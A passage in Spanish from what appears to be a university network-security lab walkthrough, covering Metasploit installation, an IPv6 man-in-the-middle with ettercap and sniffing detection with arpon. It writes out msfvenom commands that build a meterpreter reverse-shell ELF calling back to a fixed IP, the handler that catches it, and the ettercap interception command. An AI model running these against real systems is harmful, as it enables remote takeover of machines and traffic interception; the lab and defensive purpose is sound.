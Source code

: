 ```shell
./msfinstall
```

Comprobamos la versión de metasploit:

```shell
msfconsole --version
```

Una vez tengamos instalado metasploit creamos el payload:

```shell
msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=10.11.49.47 lport=4444 -f elf -o rshell.elf
```

Le asignamos permisos de ejecución:

```shell
chmod +x rshell.elf
```

y lo comprimimos:

```shell
zip compressed.zip rshell.elf
```

Hacemos que el compañero lo ejecute en su máquina mientras ejecutamos lo siguiente:

```shell
msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.11.49.47
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > exploit
#esperamos a que la víctima ejecute
```

Mientras el compañero tenga el programa en ejecución tendremos total control de la máquina.

##### h) Haga un MITM en IPv6 y visualice la paquetería. 

Lo mejor es hacer:

```shell
ettercap -Tq -i ens33 -w ip6.cap -M ndp //IPv6compa/ //::10:11:48:1/
```

asegúrate de que tienes IPv6 activado.

##### i) Pruebe alguna herramienta y técnica de detección del sniffing (preferiblemente arpon). 

Instalamos arpon:

```shell
apt install arpon
```

e incluímos en el fichero /etc/arpon.conf las IPs del router, del compañero y la nuestra junto con sus respectivas direcciones MAC.
